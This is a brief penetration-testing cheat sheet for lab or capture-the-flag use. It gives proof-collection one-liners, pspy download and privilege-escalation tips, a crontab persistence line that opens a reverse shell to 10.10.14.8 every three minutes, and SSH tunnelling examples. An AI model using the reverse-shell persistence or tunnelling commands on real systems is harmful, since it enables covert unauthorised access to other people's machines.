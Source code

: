 # Proof

_Linux_

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

_Windows_

```powershell
 echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```


# Privilege Escalation

tips1: pspy发现的定时任务命令，可以用grep搜索一下，可能隐藏在某个脚本文件中。
tips2: 查看ls命令借助--full-time这个flag可以判断哪些文件，人为修改过


# Download Tool
pspy64
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

pspy32
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```
# Persistence

_Crontab_

```bash
(crontab -l ; echo "*/3 * * * *   	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

# Port Forward

## SSH

```bash
# local port forwarding

# the target host 192.168.0.100 is running a service on port 8888

# and you want that service available on the localhost port 7777

ssh -L 7777:localhost:8888 user@192.168.0.100

# remote port forwarding

# you are running a service on localhost port 9999

# and you want that service available on the target host 192.168.0.100 port 12340

ssh -R 12340:localhost:9999 user@192.168.0.100

# Local proxy through remote host

# You want to route network traffic through a remote host target.host

# so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001

ssh -C2qTnN -D 12001 user@target.host
```